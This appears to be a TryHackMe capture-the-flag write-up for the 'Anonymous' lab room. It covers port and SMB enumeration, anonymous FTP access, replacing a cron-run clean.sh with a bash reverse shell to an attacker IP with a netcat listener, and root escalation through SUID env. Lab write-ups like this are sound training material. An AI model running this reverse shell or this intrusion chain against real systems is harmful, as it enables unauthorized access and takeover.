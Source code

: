# Anonymous - *Not the Hacking Group*


![876a5185c429c9703e625cb48c39637b-2](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/17149b3f-a657-4540-b5d3-89a7563126f4)

This is a beginner level challenge room utilizing fundamental techniques with respect to enumeration, privelege escalation, and obtaining root.

Lets GO!

---

## Task 1 - Pwn

### Enumerate!

Q1: Enumerate the machine. How many ports are open?

We start with our typical nmap script scan for open ports and services on the target IP.

`nmap -sS -A -v [target IP]`

![Pasted image 20240409105208](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/34ab2d28-c915-4fae-887e-11c5f87be2df)

This scan reveals some good stats. First of all we see four open ports and can answer Q1, Q2, Q3. 

<br>

Since we know what service is running on ports 139 and 445 we can try to get the name of the share.

For full information on this service, we can look at [samba.org](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html), which basically gives us every option for configuration and access. 

We can use this command to find the info:

`smbclient -L [target IP]`

![Pasted image 20240409114121](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/de72c742-9faa-4aba-a115-41dec46a9a5f)

No password is set,  so we can just hit enter. And now we can answer Q4.

<br>

Now, we need to establish a foothold on the target. We have an FTP server allowing anonymous access. So, let's see what we find.

We can login as anonymous with no password required:

`ftp [target IP]`

![Pasted image 20240409110057](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/25bec018-e05c-41b2-b5e3-d7ec934a59ed)

<br>

So, now that we're logged in to the server, let's have a look. Using `ls -la` we can see what directories are on the server and what privileges are assigned.

![Pasted image 20240409110956](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/06f9e983-e12b-427c-9989-2fa8dade203e)

The only visible directory is called 'scripts', and we have full rwx access. So, let's see what's there:

`cd scripts`

then, `ls -la`

![Pasted image 20240409111228](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/5c667efe-f6a2-4afa-9275-4bbd7c3af9df)

<br>

Well, we have a text file, let's start there:

![Pasted image 20240409110840](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/fdaf9ea9-55dc-4491-9c3a-199c0742ddcb)

This will grab the file and place it in our top level root directory on the local machine.

![Pasted image 20240409111602](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/a1680443-0a33-4839-acf7-693f9078a7d5)

<br>

Alternatively, we can run: `get to_do.txt -`  to read the file rather than downloading. It just streamlines the process:

![image](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/c3d49239-4834-4889-b1ce-64a70f26908d)


Reading the file does not provide much.

<br>

Note above, the clean.sh script has rwx, read-write-execute access. Let's do the same for this one:

`get clean.sh -`

![Pasted image 20240409115444](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/70e015cd-6845-46e4-a003-045f50db5476)

The script is used to check the tmp directory for any files. If no files exist in tmp directory, it will print the output "Running cleanup script: nothing to delete" to a removed_files.log file, which we also see above. If any files exist, the script will remove files in the directory `rm` and recursively force deletion of non-empty directories `-rf` and again, print the output to the same file.

Looking at the removed_files.log contents, it seems that the script runs frequently, as the output is many lines indicating "...nothing to delete", with no logs for deleted files.

I'm curious as to whether the SMB share also allows anonymous login (no password), based on the anonymous access to the FTP server, the ability to use `smbclient` without a password, and the actual file "to_do.txt" noting the need to disable anonymous login. Seems a little sloppy all around!

<br>

Let's try to login to the SMB share 'pics':

`smbclient //10.10.175.3/pics`

![Pasted image 20240409122847](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/40df4a83-f8e8-49af-85a8-59894fe1b0e4)

YEP!

<br>

We have some pictures...Let's see if we can grab the files:

![Pasted image 20240409123326](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/6a8ab4dd-c130-4caa-bed2-e02b5bd78a07)


What we know:
- Anonymous access to the FTP server
- A cleanup script: clean.sh, with full permissions (read-write-execute)
- We can assume the script is run as a scheduled cronjob
- We can upload files to the server
- We have access to an SMB share named "pics"
- We have grabbed two image files from the share

Ok, so how do we utilize this info? 

<br>

### Exploitation!

Given that we have full perms on the script, we can add our own script this to gain a reverse shell, then put the script on the target machine.

Using the following we will create a bash script called clean.sh:

```
#!/bin/bash

bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1
```

Explanation:
*see [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux) for full info!*

1. `bash -i` : This starts the interactive ( -i ) Bash shell
2. `>&` : This is shorthand notation for redirecting both standard output ( `stdout` ) and standard error ( `stderr` ) to the same destination
3. `/dev/tcp/[Attacker-IP]/4444` :  This represents the TCP connection to the specified IP address and port, to which the above command `>&` will redirect the output of the interactive shell session to our attacking machine
4. `0>&1` : This redirects standard input ( `stdin` ) to the same destination as standard output ( `stdout` ).

<br>

And we can log in to the FTP server and replace the file using:

`put clean.sh`

We will also start a netcat listener from our local machine:

`nc -lvnp 4444`

![Pasted image 20240409131432](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/ae2a279b-0105-4aea-aef2-35c4e3bdef97)

and wait for the cronjob to run and connect back to our listener.

<br>

After a few moments:

![Pasted image 20240409131829](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/c64a08b2-1c9d-49c3-a007-030ed6d4574e)

We got our shell, as well as user.txt, and can answer Q5!

<br>

Now we need to figure out how to escalate to root.

There are several ways of checking for SUID binaries, but let's start with:

`find / -perm -4000 2>/dev/null`

This returned a lot of results, we need to find something that stands out.

![Pasted image 20240409133339](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/7675323f-6ecc-4ddd-bef9-aed5437ab309)

<br>

Checking this using: `ls -lah /usr/bin/env` shows the SUID root bit set. How to escalate? 

Checking [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid) we find this:

![Pasted image 20240409134454](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/477783c2-5f12-4a5b-ba97-0cdba7445e7e)

<br>

So, on the target machine:

![Pasted image 20240409135059](https://github.com/nic0l0cin/TryHackMe-WriteUps/assets/135453212/e31dc33e-6741-4496-b2cd-15a0be79f539)


And we got our root.txt flag!

Thank you for reading!


